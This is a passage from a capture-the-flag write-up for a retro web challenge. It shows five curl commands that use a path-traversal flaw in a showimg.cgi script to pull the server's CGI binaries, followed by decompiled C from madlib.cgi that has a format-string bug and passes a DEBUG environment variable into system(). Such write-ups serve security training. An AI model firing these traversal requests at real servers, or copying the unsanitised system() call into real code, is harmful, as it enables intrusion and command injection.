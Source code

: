 We spent a lot of time searching flags in dumb directories (`/tmp/flag` -> `Pick a better filename`). Later on, we decided to download and analyze the web-server CGI files for vulns.

The script which downloads everything can be executed as follows:
```
curl http://retro-01.hfsc.tf:8080/cgi-bin/showimg.cgi\?/////////////////////////////////////////////////../../../../../../usr/local/apache2/cgi-bin/color.cgi/.gif -o color.cgi
curl http://retro-01.hfsc.tf:8080/cgi-bin/showimg.cgi\?////////////////////////////////////////////////../../../../../../usr/local/apache2/cgi-bin/madlib.cgi/.gif -o madlib.cgi
curl http://retro-01.hfsc.tf:8080/cgi-bin/showimg.cgi\?/////////////////////////////////////////////////../../../../../../usr/local/apache2/cgi-bin/lorem.cgi/.gif -o lorem.cgi
curl http://retro-01.hfsc.tf:8080/cgi-bin/showimg.cgi\?//////////////////////////////////////////////////../../../../../../usr/local/apache2/cgi-bin/joke.cgi/.gif -o joke.cgi
curl http://retro-01.hfsc.tf:8080/cgi-bin/showimg.cgi\?///////////////////////////////////////////////../../../../../../usr/local/apache2/cgi-bin/counter.cgi/.gif -o counter.cgi
```

# Analysis of CGI files

The files are 32-bit executables, which are interpreted with `musl` and easily reversible with `ghydra`. `madlib.cgi` caught our attention, because it made `system()` call after some "DEBUG" conditions were met.

The next piece of code is what we talk about:

```c
void main()

{
  char *query_string;
  char buf [100];
  int local_14;
  
  local_10 = &stack0x00000004;
  local_14 = *(int *)(in_GS_OFFSET + 0x14);
  alarm(5);
  puts("Content-type: text/html\n");
  puts("<html><body background=\"/bg.jpg\">");
  printf("<h1>Mad Lib generator</h1>");
  query_string = getenv("QUERY_STRING");
  if ((query_string == (char *)0x0) || (*query_string == '\0')) {
    puts(
        "<form><table border=0><tr><td><label for=\"adj\">Adjective</label></td><td><input type=\"te xt\" id=\"adj\" name=\"adj\" value=\"Old\"></td></tr><tr><td><label for=\"noun\">Noun</label ></td><td><input type=\"text\" id=\"noun\" name=\"noun\" value=\"Farm\"></td></tr><tr><td><l abel for=\"animal\">Animal</label></td><td><input type=\"text\" id=\"animal\" name=\"animal\ " value=\"Cow\"></td></tr><tr><td><label for=\"noise\">Noise</label></td><td><input type=\"t ext\" id=\"noise\" name=\"noise\" value=\"Moo\"></td></tr><tr><td></td><td><input type=submit></td></tr></table></form>"
        );
  }
  else {
    format_string(query_string);  // Vulnerable function
    printf("<a href=\"/cgi-bin/madlib.cgi\">Go back</a>");
  }
  query_string = getenv("DEBUG");
  if (query_string != (char *)0x0) {
    query_string = getenv("DEBUG");
    snprintf(buf,100,"echo \"[DBG] %s\" >> /opt/logfile",query_string);
    system(buf);
    puts("<!-- [DEBUG ACTIVE] -->");
  }

  return;
}
```